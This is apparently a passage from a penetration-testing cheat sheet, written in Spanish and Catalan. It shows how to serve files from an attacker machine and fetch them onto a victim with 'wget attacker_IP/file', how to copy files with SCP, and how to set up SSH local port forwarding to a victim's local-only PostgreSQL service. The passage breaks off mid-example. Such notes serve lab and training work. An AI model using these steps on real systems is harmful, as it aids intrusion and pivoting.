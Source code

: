 
#### **Montar un servidor web**

```bash

# Attack Machine
python -m SimpleHTTPServer 8080
python3 -m http.server 80 (dins de la carpeta on tenim els fitxers)

# Victim Machine
wget attacker_IP/file

Ex: 
wget <http://192.168.1.39:8080/FiletoDownload>

```

#### **SCP**

```bash
#Uploading a file from a local computer to a remote one:

scp /path/to/local/file username@hostname:/path/to/remote/file

#Downloading a file from a remote system to your computer:

scp username@hostname:/path/to/remote/file /path/to/local/file

```

## UTILS

#### **Local Port Forwarding (SSH)**

*   Para acceder a un servicio que hay en una maquina remota y que no es accesible desde el exterior, únicamente desde localhost. Aplica cuando obtenemos acceso a una maquina y vemos algún servicio corriendo solo en local.

    ```bash
    # Victim machine: 
    10.129.88.226
    # Service in victim machine visble only on local host
    postgresql 
    port 5432
    # User in victim machine : 
    Christine (with credentials)

    # Attacker machine
    localhost
    # Port
    1111
